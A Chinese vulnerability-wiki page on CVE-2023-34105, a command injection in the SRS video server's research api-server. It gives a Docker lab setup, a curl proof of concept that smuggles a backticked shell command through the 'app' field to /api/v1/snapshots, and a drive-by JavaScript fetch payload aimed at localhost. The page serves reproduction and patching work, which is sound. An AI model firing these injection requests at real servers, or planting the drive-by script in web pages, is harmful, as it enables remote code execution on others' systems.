



## 2026-10-03 版本核验

版本索引除原文两条 5.x/6.x 范围外，补入 CNA 单独列出的 SRS < 5.0-b1；三条分支分别以 5.0.157、6.0.48、5.0-b1 为修复界限，不能混为一个连续版本区间。

# SRS api-server 服务器命令执行漏洞 CVE-2023-34105

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：research api-server运行且可达、action on_publish/app参数进入命令；不是所有SRS核心RTMP服务默认漏洞
- 证据范围：完整Dockerfile/compose及app注入请求，明确实验v5.0-a4；应映射该tag到文列5.0.137–.156范围

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 描述仅启动srs-server实际go run research/api-server，产品组件名需准确
- 浏览器drive-by需要用户访问恶意页且受浏览器本地网络/混合内容策略影响，不能无条件成功
- 版本元数据仅5.x漏6.x；5.0-b1与数字版本关系需明确
- 没有鉴权但绑定地址/部署选项重要

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

SRS 是一个实时视频服务器，支持 RTMP、WebRTC、HLS、HTTP-FLV、SRT、MPEG-DASH 和 GB28181。在版本 5.0.157、5.0-b1 和 6.0.48 之前，SRS 的 `api-server` 服务器容易受到命令注入驱动的攻击。攻击者可以向 `/api/v1/snapshots` 端点发送一个请求，其中包含要作为 POST 请求主体执行的任何命令。此问题可能导致远程代码执行（RCE）。版本 5.0.157、5.0-b1 和 6.0.48 包含修复程序。

参考链接：

- https://github.com/ossrs/srs/blob/1d11d02e4b82fc3f37e4b048cff483b1581482c1/trunk/research/api-server/server.go#L761
- https://github.com/ossrs/srs/commit/1d878c2daaf913ad01c6d0bc2f247116c8050338
- https://github.com/ossrs/srs/security/advisories/GHSA-vpr5-779c-cx62

## 漏洞影响

```
SRS v5.0.137~v5.0.156
SRS v6.0.18~v6.0.47
```

## 环境搭建

我们使用 SRS [v5.0-a4](https://github.com/ossrs/srs/releases/tag/v5.0-a4) 版本构建一个最小化测试环境，仅启动 srs-server。

Dockerfile

```
FROM golang:1.21-bullseye

WORKDIR /app
RUN apt-get update && apt-get install -y wget && rm -rf /var/lib/apt/lists/*
RUN wget https://github.com/ossrs/srs/releases/download/v5.0-a4/srs-server-5.0-a4.tar.gz
RUN tar -xzf srs-server-5.0-a4.tar.gz && rm srs-server-5.0-a4.tar.gz

WORKDIR /app/srs-server-5.0-a4/trunk/research/api-server
EXPOSE 8085
CMD ["go", "run", "server.go"]
```

docker-compose.yml

```
services:
  srs-api-stub:
    build: .
    container_name: srs-api-stub
    ports:
      - "8085:8085"
    restart: always
```

执行如下命令启动一个 SRS v5.0-a4 的 srs-server 服务：

```shell
docker-compose up -d --build
```

服务启动后，访问 `http://your-ip:8085` 即可查看服务。




## 漏洞复现

`api-server` 服务器存在命令注入漏洞。攻击者可以向 `/api/v1/snapshots` 端点发送请求，请求体中包含任何要执行的命令：

```shell
curl -i -s -k -X $'POST' \
    -H $'Host: your-ip:8085' -H $'Connection: close' -H $'Content-Type: application/json' \
    --data-binary $'{\"action\":  \"on_publish\",\"app\":  \"`touch /tmp/awesome_poc`\", \"stream\":\"foo\", \"vhost\": \"foo\",\"client_id\":\"foo\"}' \
    $'http://your-ip:8085/api/v1/snapshots'
```




成功执行命令，创建文件：




请注意，即使端口 8085 仅在本地主机接口上暴露，攻击者仍然可能使用 [drive-by attack](https://about.gitlab.com/blog/2021/09/07/why-are-developers-vulnerable-to-driveby-attacks/) 来利用此服务。攻击者可以准备一个包含以下 JS 脚本的恶意网站：

```
<script>
	fetch("http://localhost:8085/api/v1/snapshots", {
        method: 'post',
        mode: 'no-cors',
        headers: {
            'Content-Type': 'text/plain'
        },
    	body: '{"action":  "on_publish", "app":  "`touch /tmp/pwned`", "stream":"foo", "vhost": "foo", "client_id":"foo"}',
	})
</script>
```

如果攻击者诱骗受害者在 `api-server` 服务运行时访问此页面，将能够远程访问并成功执行命令。

## 漏洞修复

更新至安全版本 v5.0.157, v5.0-b1, v6.0.48。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
